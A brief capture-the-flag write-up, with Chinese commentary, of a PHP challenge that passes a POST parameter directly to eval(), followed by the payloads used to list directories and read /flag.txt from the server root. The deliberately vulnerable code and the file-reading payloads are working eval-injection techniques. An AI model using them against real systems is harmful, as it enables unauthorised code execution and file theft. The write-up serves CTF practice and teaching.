



```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```


```
c=var_dump(scandir(getcwd()));
```



```
c=var_dump(scandir("/"));
```



依旧是根目录中存在flag.txt


读取

```
c=highlight_file("/flag.txt");
```

